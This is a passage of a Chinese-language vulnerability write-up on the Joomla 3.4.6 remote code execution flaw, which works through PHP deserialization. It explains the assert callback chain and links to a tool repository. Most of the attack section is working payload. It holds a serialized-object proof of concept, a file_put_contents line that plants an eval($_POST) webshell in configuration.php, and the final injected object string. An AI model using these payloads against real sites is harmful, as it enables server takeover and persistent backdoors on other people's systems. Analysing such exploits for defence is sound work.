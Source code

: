 ```
```

很明显，其中这两个call_user_func将是触发代码执行的元凶。

所以，可以将其中第二个call_user_func的第一个参数cache_name_function，赋值为assert，第二个参数赋值为我需要执行的代码，就构造好了一个『回调后门』。

**2.2 SimplePie类**

默认情况下SimplePie是没有定义的，这也是为什么我在调用SimplePie之前先new了一个JSimplepieFactory的原因，因为JSimplepieFactory对象在加载时会调用import函数将SimplePie导入到当前工作环境：

[![](https://p4.ssl.qhimg.com/t01f77bceb29dffd587.png)](https://p4.ssl.qhimg.com/t01f77bceb29dffd587.png)

而JSimplepieFactory有autoload，所以不再需要其他include来对其进行加载。

P牛的Poc

```
O:21:"JDatabaseDriverMysqli":3:`{`s:4:"a";O:17:"JSimplepieFactory":0:`{``}`s:21:"disconnectHandlers";a:1:`{`i:0;a:2:`{`i:0;O:9:"SimplePie":5:`{`s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:`{``}`s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";`}`i:1;s:4:"init";`}``}`s:13:"connection";i:1;`}`ð
```

前面讲过由于Joomla的会话机制Post请求会被303重定向到结果页面所以无法回显,这里的phpinfo函数就用不了

选择用file_put_contents函数写入一句话到configuration.php中

```
file_put_contents('configuration.php','if(isset($_POST[\'test\'])) eval($_POST[\'test\']);', FILE_APPEND) || $a='http://wtf';
```

最终的对象如下：

```
AAA";s:11:"maonnalezzo":O:21:"JDatabaseDriverMysqli":3:`{`s:4:"a";O:17:"JSimplepieFactory":0:`{``}`s:21:"disconnectHandlers";a:1:`{`i:0;a:2:`{`i:0;O:9:"SimplePie":5:`{`s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:`{``}`s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:217:"file_put_contents('configuration.php','if(isset($_POST['ja0k']))+eval($_POST['ja0k']);',+FILE_APPEND)+||+$a='http://wtf';";`}`i:1;s:4:"init";`}``}`s:13:"connection";i:1;`}`s:6:"return";s:102:

```



## 修复建议

更新至最新版本

官方地址[https://downloads.joomla.org](https://downloads.joomla.org)

**代码及工具下载：**

[https://github.com/SecurityCN/Vulnerability-analysis/blob/master/Joomla/Joomla3.4.6-RCE](https://github.com/SecurityCN/Vulnerability-analysis/blob/master/Joomla/Joomla3.4.6-RCE)

**免责声明：本文中提到的漏洞利用Poc和脚本仅供研究学习使用，请遵守《网络安全法》等相关法律法规。**
